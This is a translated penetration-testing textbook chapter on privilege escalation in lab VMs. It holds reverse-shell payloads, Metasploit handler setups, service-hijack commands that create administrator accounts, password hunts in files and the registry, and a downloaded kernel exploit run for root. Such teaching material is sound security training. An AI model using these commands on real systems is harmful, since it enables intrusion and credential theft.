








# 第九章。权限提升和利用

在本章中，我们将涵盖以下配方：

+   使用 WMIC 查找权限提升漏洞

+   敏感信息收集

+   未引用的服务路径利用

+   服务权限问题

+   配置错误的软件安装/不安全的文件权限

+   Linux 权限提升

# 介绍

在上一章中，我们看到了如何利用服务并以低权限或系统权限用户的身份访问服务器。在本章中，我们将看看如何将低权限用户提升为提升用户 - 甚至是系统用户。本章将涵盖 Windows 和 Linux 的提升技术。通常在网络中，当服务器被攻击时，攻击者总是试图提升权限以造成更多的破坏。一旦攻击者获得了更高权限的用户访问权限，他就能够运行系统级命令，窃取密码哈希和域密码，甚至设置后门并将攻击转移到网络中的其他系统。让我们继续了解这些权限是如何提升的。

# 使用 WMIC 查找权限提升漏洞

在这个配方中，我们将了解攻击者如何通过 WMIC 获得提升权限的洞察力。WMIC 扩展了 WMI，可以从几个命令行界面和批处理脚本中操作。**WMI**代表**Windows 管理工具**。除了其他几件事情外，WMIC 还可以用来查询系统上安装的补丁。为了更好地理解它，它提供了在 Windows 更新期间安装的所有安全补丁的详细信息列表，或者手动放置的补丁。它们通常看起来像（KBxxxxx）。

## 准备工作

为了演示这一点，我们将需要一个至少有两个核心的 Windows 7 机器。如果我们在虚拟机中测试它，我们可以将核心数设置为 2。此外，此配方需要缺少该补丁。

## 如何做到...

1.  打开命令提示符并执行以下查询：

```
    wmic qfe get Caption,Description,HotFixID,InstalledOn

    ```

输出将如下截图所示：


1.  我们得到了安装在操作系统上的所有补丁的列表。有两种方法可以找到可能的提升权限漏洞：通过检查 KB 序列号检查最后安装的序列号，然后找到该补丁号之后披露的漏洞，或者通过安装日期。在这种情况下，我们通过安装日期搜索，发现了以下漏洞：

1.  正如我们所看到的，发现日期大约是**2016-04-21**，而我们的机器最后更新是在 2015 年 12 月。我们将利用这个漏洞并找到其补丁号。快速搜索 MS16-032 的补丁号给我们带来了路径号：

1.  我们看到 KB 号是`313991`。让我们检查一下它是否安装在系统上。在命令提示符中执行以下查询：

```
          wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr       "KB3139914"

    ```

输出将如下截图所示：


1.  太好了。没有为其应用补丁；现在我们将从[`www.exploit-db.com/exploits/39719/`](https://www.exploit-db.com/exploits/39719/)下载漏洞利用。下载完成后，将其重命名为`Invoke-MS16-032.ps1`。

1.  现在打开 PowerShell 并输入以下命令：

```
          . ./Invoke-MS16-032.ps1
          Invoke-MS16-032

    ```

输出将如下截图所示：



1.  太棒了！我们得到了一个系统级 shell。从这里开始，系统完全由我们控制；后期利用阶段可以从这里开始。

## 它是如何工作的...

让我们了解一下它是如何工作的：

+   `wmic qfe get Caption,Description,HotFixID,InstalledOn`：此命令执行 WMIC 接口；`qfe`代表`快速修复工程`，`get`参数允许我们设置要查看的特定列

+   `. ./ Invoke-MS16-032.ps1`：此命令执行并加载脚本

+   `Invoke-MS16-032`：此命令执行文件

## 还有更多...

使用`wmic`命令还有其他升级权限的方法；当查询`wmic`时，这不是唯一的漏洞。我们可能会发现更多尚未安装的补丁。现在让我们看看如何收集敏感信息以帮助提升权限。

# 敏感信息收集

通常情况下，网络管理员必须编写脚本来自动化公司网络中数千台计算机的流程。在每台系统上进行单独配置是一项繁琐且耗时的任务。可能会出现因疏忽而导致敏感文件在系统中被遗留的情况。这些文件可能包含密码。一旦我们检索到受损系统的哈希值，我们就可以使用它们来执行**PTH**（**传递哈希**）攻击，并访问系统中找到的不同帐户。同样，如果用户在多个系统上使用相同的密码，可以使用相同的哈希值在另一台机器上执行 PTH 攻击来获得该用户的访问权限。我们可能会找到许多可能帮助我们提升权限的敏感信息。

## 准备工作

一个 Windows 系统，一个 Kali 机器，以及对受损机器的远程 shell 访问基本上就是这个配方所需要的一切。

## 如何做...

1.  使用以下命令搜索文件系统中包含某些关键字的文件名：

```
          dir /s *pass* == *cred* == *vnc* == *.config*

    ```

输出将如下所示的屏幕截图：


1.  要搜索与给定关键字匹配的特定文件类型，请使用以下命令：

```
          findstr /si password *.xml *.ini *.txt

    ```

输出将如下所示的屏幕截图：


1.  要搜索包含密码等关键字的注册表，请使用以下命令：

```
          reg query HKLM /f password /t REG_SZ /s
          reg query HKCU /f password /t REG_SZ /s

    ```

1.  我们还可以搜索可能暴露某些信息的未经处理或配置文件。看看系统上是否可以找到以下文件：

```
          c:\sysprep.inf
          c:\sysprepsysprep.xml
          %WINDIR%\Panther\Unattend\Unattended.xml
          %WINDIR%\Panther\Unattended.xml
          Note: we found Unattended.xml in the screenshot shared above.

    ```

1.  还有其他一些样本 XML 文件可能会引起我们的兴趣。看看它们：

```
          Services\Services.xml
          ScheduledTasks\ScheduledTasks.xml
          Printers\Printers.xml
          Drives\Drives.xml
          DataSources\DataSources.xml

    ```

## 还有更多...

桌面上可能有文件，或者在共享文件夹中，包含密码。其中可能还有包含存储密码的计划程序。最好在操作系统中搜索一次，找到可能有助于提升权限的敏感信息。

# 未引用服务路径利用

在这个配方中，我们将练习利用和获取高级用户对未引用服务路径的额外权限。首先，让我们了解什么是未引用的服务路径。我们所说的是指定/配置的服务二进制文件路径没有加引号。这只有在低权限用户被赋予对系统驱动器的访问权限时才有效。这通常发生在公司网络中，用户被允许添加文件的例外情况。

让我们看一下以下屏幕截图，更好地理解这个问题：


如果我们看一下可执行文件的路径，它是没有加引号指定的。在这种情况下，可以绕过 Windows 的执行方法。当路径之间有空格，并且没有用引号指定时，Windows 基本上是以以下方式执行的：

```
    C:\Program.exe
    C:\Program\FilesSome.exe
    C:\Program\FilesSome\FolderService.exe

```

在前面的情况下，Foxit Cloud Safe Update Service 的路径是没有引号的，这基本上意味着它将搜索绝对路径，并导致`Program.exe`文件被执行的情况。现在让我们执行这个实际的例子，看看它是如何工作的。

## 准备工作

为了做好准备，我们需要 Metasploit 和 Foxit Reader，可以在[`filehippo.com/download_foxit/59448/`](http://filehippo.com/download_foxit/59448/)找到。易受攻击的版本是 Foxit Reader 7.0.6.1126。一旦安装了 Foxit，我们就可以继续我们的配方。

## 如何操作...

1.  运行 Windows cmd 并输入以下命令：

```
          sc qc FoxitCloudUpdateService

    ```

输出将如下截屏所示：


1.  我们看到二进制路径没有被引号括起来。现在我们将继续在我们的 Kali 机器上使用`msfvenom`制作一个反向 shell，用于这个 Windows 框架。在 Kali 终端中输入以下命令，替换您在 Kali 上获得的 IP 和所需的端口：

```
          msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP       Address> LPORT=<Your Port to Connect On> -f exe > Program.exe

    ```

输出将如下截屏所示：


1.  在您的 Kali 机器上使用以下命令启动一个反向处理程序：

```
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost x.x.x.x
          set lport xxx
          exploit

    ```

输出将如下截屏所示：



1.  现在，让我们将这个文件放在 Windows 系统上。由于我们专注于权限提升，我们将简单地将其托管在 Web 服务器上，并在 Windows 机器上下载它。

1.  一旦文件下载完成，我们找到一种方法将其放在`C`驱动器中，以便路径类似于`C:\Program.exe`。只有在权限设置不正确，或者错误配置的 FTP 设置将路径指向`C`驱动器，或者允许我们将我们的代码粘贴到路径上的任何错误配置时，才有可能实现这一点：

1.  现在我们将重新启动 Windows 7 系统，并等待我们的处理程序，看看是否会得到一个反向连接：

1.  我们成功地在重新启动时获得了一个反向连接；这是由于未加引号的服务路径漏洞。

1.  让我们检查我们收到连接的用户级别：

1.  我们已经进入系统。现在我们可以在操作系统上执行任何任务而不受任何限制。

## 它是如何工作的...

如介绍中所讨论的，这是因为 Windows 处理服务二进制路径的执行流程。我们能够利用任何有空格并且没有被引号括起来的服务。

让我们了解`msfvenom`命令：

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP   Address>   LPORT=<Your Port to Connect On> -f exe > Program.exe

```

在上述命令中，`-p`代表有效载荷，`LHOST`和`LPORT`是有效载荷的要求，`-f`表示生成有效载荷的格式。

要获取更多信息，请输入以下命令：

```
  Msfvenom -h

```

## 还有更多...

更多未加引号的服务路径利用示例可在 exploit-db 上找到。使用以下 Google dork 命令获取更多信息：

```
intitle:unquoted site:exploit-db.com 

```

## 参见...

+   关于未加引号的服务路径利用的两篇优秀白皮书可以在[`trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/`](https://trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/)和[`www.gracefulsecurity.com/privesc-unquoted-service-path/`](https://www.gracefulsecurity.com/privesc-unquoted-service-path/)找到。

# 服务权限问题

在这个教程中，我们将看看如何提升弱配置服务的权限。这里的核心关注点是，当一个服务被赋予所有访问权限时。可以想象当一个服务以系统权限运行时给予所有访问权限的恐怖。在这个教程中，我们将看一个案例研究，Windows XP 被装载了有漏洞的服务，并且可以以低权限用户的身份执行系统级命令。当这种情况可能发生时，很容易利用并提升权限到系统级。

## 准备工作

对于这个活动，我们将需要一台 Windows XP 机器。我们将利用运行在 Windows XP 操作系统上的 UPnP 服务。**UPnP**代表**通用即插即用**协议。我们还需要 Windows Sysinternals 套件中提供的**AccessChk**工具。它可以从([`technet.microsoft.com/en-us/bb842062`](https://technet.microsoft.com/en-us/bb842062))下载。让我们继续并开始我们的教程。

## 如何操作...

1.  Windows XP 机器启动后，使用具有用户权限的用户名登录，在`accesschk.exe`文件所在的文件夹中打开命令提示符，并运行以下命令：

```
    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

    ```

输出将如下截图所示：


1.  一旦我们知道有两个服务可以访问所有用户的权限，我们将检查服务配置。在命令提示符中输入以下命令：

```
    sc qc upnphost

    ```

输出将如下截图所示：


1.  现在我们将更改服务的二进制路径，因为应用程序已经给予了所有访问权限。在需要恢复到原始状态时，保留服务配置的副本。现在在终端中输入以下命令：

```
    sc config upnphost binpath= "net user attack attack@123 /add"
          sc config upnphost obj= ".\LocalSystem" password= ""

    ```

输出将如下截图所示：


1.  我们看到我们的命令已成功执行。现在让我们通过发出以下命令来验证并重新启动服务：

```
    sc qc upnphost
          net start upnphost

    ```

输出将如下截图所示：


1.  完成后，我们会看到一个服务无响应的错误。然而，这是注定会发生的：由于二进制路径不正确，它将尝试使用系统权限执行二进制路径。在这种情况下，它应该创建一个用户。让我们通过发出以下命令来检查：

```
    net user

    ```

输出将如下截图所示：


1.  `attack`用户已成功创建；然而，它将是一个低级用户。让我们重新编写二进制路径。再次启动和停止 UPnP 活动，并获得管理员权限：

```
    sc config upnphost binpath= "net localgroup administrators        attack/add"
          net stop upnphost
          net start upnphost

    ```

输出将如下截图所示：


1.  让我们检查用户 attack 的用户详细信息，以验证他/她是否已成为管理员用户：

## 工作原理...

我们在这里看到的是一个普通用户能够创建一个用户并将该用户也设为管理员。通常只有管理员或系统用户才有权限；漏洞存在于`upnphost`服务中，因为它已经给予了所有用户对服务的访问权限。让我们分析这些命令：

+   `accesschk.exe /accepteula -uwcqv "Authenticated Users" *`：`accesschk.exe`文件是一个检查特定服务访问权限的工具。`/accepteula`命令是为了在我们不得不点击**我同意**继续的许可接受通知时静默地绕过。

+   `sc qc upnphost`：`sc`是一个用于与 NT 服务控制器和服务通信的命令行程序。`qc`命令查询服务的配置信息。

+   `sc config upnphost binpath= "net user attack attack@123 /add"`：`config`命令指定了对服务配置的编辑。在这里，我们将二进制路径设置为创建一个新用户。

+   `sc config upnphost obj= ".\LocalSystem" password= ""`：`obj`命令指定了服务二进制文件执行的类型。

## 还有更多...

正如我们所看到的，还有一个服务是有漏洞的。看看是否也可以通过该服务提升权限是个好主意。

# 配置错误的软件安装/不安全的文件权限

在这个示例中，我们将看到攻击者如何利用配置错误的软件安装并提升应用程序的权限。这是一个经典的例子，安装设置配置时没有考虑用户对应用程序文件和文件夹的权限。

## 准备工作

对于这个示例，我们需要安装一个名为 WinSMS 的应用程序。这可以从[`www.exploit-db.com/exploits/40375/`](https://www.exploit-db.com/exploits/40375/)下载，并且可以安装在运行 XP、Vista、7 或 10 的任何 Windows 机器上。出于演示目的，我们将使用 Windows 7。除此之外，我们还需要我们的 Kali 系统运行以获取反向 shell。

## 如何做到的...

1.  一旦我们安装了应用程序，我们将执行命令提示符并检查文件安装的文件夹的权限。输入以下命令：

```
    cacls "C:\Program Files\WinSMS" 

    ```

输出将如下截图所示：



1.  正如我们所看到的，有`Everyone`访问权限，并且拥有完全权限。这是一个严重的失误，这意味着任何有权访问系统的人都可以修改该文件夹中的任何文件。攻击者几乎可以做任何事情。攻击者可以将他的恶意文件与 WinSMS 的可执行文件放在一起，甚至替换 DLL 文件并执行他的命令。出于演示目的，我们将放置一个我们将从 Kali 创建的反向 shell，并等待连接。让我们开始。在您的 Kali 终端中，输入以下内容创建一个反向`exe` shell：

```
    msfvenom -p windows/meterpreter/reverse_tcp       LHOST=192.168.157.151 LPORT=443 -f exe > WinSMS.exe

    ```

输出将如下截图所示：


1.  我们下载这个可执行文件，并将其替换为安装软件的文件夹中的`WinSMS.exe`文件：

现在我们用新创建的 meterpreter 文件替换 WinSMS 文件：



1.  现在我们已经放置了文件，让我们在 Metasploit 上打开一个监听器，等待看看当用户执行文件时会发生什么。在终端中输入以下命令设置 Metasploit 监听器：

```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost 192.168.157.151
          set lport 443
          exploit

    ```

输出将如下截图所示：


1.  现在我们所要做的就是等待高级用户执行该文件，然后，哇，我们将获得该用户的反向 shell，完整地拥有他的权限。出于演示目的，我们将以管理员身份执行此文件。让我们来看一下：

1.  现在我们有了一个升级的 shell 可以进行交互。

## 它是如何工作的...

工作原理非常简单：攻击者利用不安全的文件夹权限，替换文件为恶意文件，并在等待反向连接时执行它。我们已经在之前的示例中看到了`msfvenom`的工作原理。因此，一旦攻击者替换了文件，他将简单地等待高权限用户的连接。

## 还有更多...

现在，我们故意留下了一个场景给读者：在前面的情况下，文件将被执行。但是，它不会启动应用程序，这显然会引起怀疑。读者的任务是使用`msfvenom`将后门附加到现有的可执行文件上，这样当它被初始化时，用户将不会知道发生了什么，因为程序将被执行。

## 另请参阅...

+   可以使用 dork 找到更多关于此的示例：不安全的文件权限站点：[exploit-db.com](http://exploit-db.com)

# Linux 权限提升

对于这个示例，我们将使用一个名为 Stapler 的易受攻击的操作系统。该镜像可以从[`www.vulnhub.com/entry/stapler-1,150/`](https://www.vulnhub.com/entry/stapler-1,150/)下载并加载到 VirtualBox 中。在前一章中，我们学习了如何进行漏洞评估并获得低级或高级访问权限。作为练习的一部分，读者可以进行渗透测试并在 Stapler OS 上获得 shell。我们将从接收低权限 shell 的地方继续。

## 做好准备

对于这个教程，读者需要在易受攻击的 Stapler OS 上拥有低权限 shell。在这种情况下，我们通过一些信息收集和密码破解成功地获得了一个用户的 SSH 连接。

## 如何做…

1.  我们已经使用用户名`SHayslett`成功登录到 Stapler 机器，如下截图所示：

1.  我们将枚举系统的操作系统内核版本。输入以下命令来检查版本类型和内核详细信息：

```
    uname -a
          cat /etc/lsb-release

    ```

输出结果将如下截图所示：


1.  在搜索提升权限的漏洞时，发现 Ubuntu 16.04 存在漏洞：

1.  第一次搜索是为了匹配我们的内核版本和 Ubuntu 操作系统版本。让我们继续在我们想要提升权限的机器上下载它。可以使用以下命令进行下载：

```
          wget https://github.com/offensive-security/exploit-database-      bin-sploits/raw/master/sploits/39772.zip
          unzip 39772.zip

    ```

输出结果将如下截图所示：


1.  现在我们进入`39772`文件夹并解压`exploit.tar`文件。在终端中输入以下命令：

```
    cd 39772
          tar xf exploit.tar

    ```

输出结果将如下截图所示：


1.  在输入`ebpf*`文件夹后，会有一个`compile.sh`文件。让我们编译并执行该文件：

```
    cd ebpf_mapfd_doubleput_exploit/
          ./compile.sh
          ./doubleput

    ```

输出结果将如下截图所示：



很好。我们已成功地获得了系统的 root 权限。

## 它是如何工作的…

这是一个非常简单和直接的方法，用来弄清楚如何在 Linux 机器上提升权限。我们经历了以下步骤：

+   查找操作系统和内核版本

+   在互联网上搜索漏洞，如果有的话

+   找到一些利用方法

+   与我们可用的向量进行交叉验证

+   所有向量已编译，因此我们下载并执行了内核利用程序

还有其他提升 Linux 权限的方法，比如配置错误的服务、不安全的权限等等。

## 还有…

在这个教程中，我们看了如何通过利用基于 OS 的漏洞来提升低级用户的权限。还有其他提升权限的方法。所有这些的关键因素都是枚举。

为了了解更多，请检查以下漏洞：

+   操作系统和内核版本

+   应用程序和服务

+   在这个中，我们搜索正在以高权限或甚至 root 权限运行的服务，以及配置中是否存在任何漏洞

+   计划任务和访问或编辑它们的权限

+   访问机密信息或文件，如`/etc/passwd`或`/etc/shadow`

+   无人值守密码文件

+   控制台历史/活动历史

+   日志文件

## 另请参阅…

+   g0tm1lk 在他的网站上有一篇非常好的文章，他在其中提供了大量信息，以便了解如何枚举和找到合适的利用方法：[`blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/`](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
